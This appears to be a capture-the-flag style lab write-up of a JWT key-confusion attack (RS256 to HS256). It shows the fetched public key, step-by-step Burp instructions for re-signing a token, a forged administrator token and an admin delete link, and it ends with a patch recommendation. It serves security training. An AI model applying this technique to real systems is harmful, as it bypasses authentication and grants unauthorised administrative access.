 Url : https://0a6400d4033edbc2812f6c1900a8000d.web-security-academy.net/jwks.json

Result : 

```
{"keys":[{"kty":"RSA","e":"AQAB","use":"sig","kid":"a25a888d-0c3e-44ae-ad77-23f7b92b9b36","alg":"RS256","n":"pPRIZAy_zneEYQQw3JwF29H8hB0yOfg35IUsuxDKNymjPIpA5yomLbN3k0ng9PzHjZqsH_qt_B8LSjxOYB6i9UCXYl30zVIMXxzR0hNE9IpgcJ9jx9YUDI93jqzjR1WKJY1FJqj-hv2BU8Pm_e9rfBhX41eQHw1yFYp0WC2Efzuj9Zi7obfZv4vfOJIW8U0Omz5iwVRPxp_NVEVeBOFUS2z-tY15zTclTiNDGnfjHnfO2R1NxcMGRshiwV7x3Zzz_snpEH89ujQcSuF-UIrs-EOhEESL-Gd8yDnPo3-LOHno7A7XP7LrSOCZyypSF5fBdusknAJNEPOA1SN-BaJbJQ"}]}
```

# JWT Signature - Key Confusion Attack RS256 to HS256 (CVE-2016-5431)

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token

- Find the public key, usually in /jwks.json or /.well-known/jwks.json
- Load it in the JWT Editor Keys tab, click New RSA Key.
. In the dialog, paste the JWK that you obtained earlier: {"kty":"RSA","e":"AQAB","use":"sig","kid":"961a...85ce","alg":"RS256","n":"16aflvW6...UGLQ"}
- Select the PEM radio button and copy the resulting PEM key.
- Go to the Decoder tab and Base64-encode the PEM.
- Go back to the JWT Editor Keys tab and generate a New Symmetric Key in JWK format.
- Replace the generated value for the k parameter with a Base64-encoded PEM key that you just copied.
- Edit the JWT token alg to HS256 and the data.
- Click Sign and keep the option: Don't modify header


---
new token :
```
eyJraWQiOiJhMjVhODg4ZC0wYzNlLTQ0YWUtYWQ3Ny0yM2Y3YjkyYjliMzYiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2ODA3OTQ0MTB9.D2FO_ySAzhPdjn-XM4KIFgaNBls-Vin8D6CRTsSjqbw
```

```html
<a href="/admin/delete?username=wiener">Delete</a>
```

GG EZ ! :) #4W17714M <3

---
# Recommandations :

- The PHP JOSE Library by Gree Inc. before version 2.2.1 is vulnerable to key confusion/algorithm substitution in the JWS component resulting in bypassing the signature verification via crafted tokens. 

So....

> Mettre à jours la librairie PHP JOSE : Version >= 2.2.1


---
